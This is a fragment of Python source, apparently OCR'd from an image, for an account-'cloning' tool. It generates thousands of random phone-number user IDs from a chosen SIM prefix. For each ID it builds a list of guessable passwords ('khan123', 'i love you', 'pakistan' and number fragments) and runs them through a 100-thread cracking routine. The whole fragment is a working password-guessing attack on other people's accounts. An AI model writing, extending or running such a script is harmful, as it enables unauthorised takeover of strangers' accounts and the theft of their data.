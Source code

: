 
#_______
def sudair_pk():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    sudair_Hasan(logo)
    sudair_Hasan(f' [{xr}^{x}] Example>: {xr}92318,92345,92323,92306.ETC{x}')
    sudair_Hasan(" ----------------------------------------------------------------------------------------------------")

    code = input(f' [{xr}■{x}] PUT YOUR SIM CODE : ')
    os.system('clear')
    sudair_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    sudair_Hasan(logo)
    passx = 0
    HamiiID = []
    sudair_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        sudair_Hasan('\033[1;97m====================================================')
        sudair_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        sudair_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        sudair_Hasan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[3:],code+love,love[1:],'khankhan','khan1122','khan12','khan123','khan123456','i love you','free fire','pakistan']
            uid = code+love
            for sudair in HamiiID:
                pwx.append(sudair)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} --------------------------------------------------------------------------------------------------------------------------------------------------------------------------")


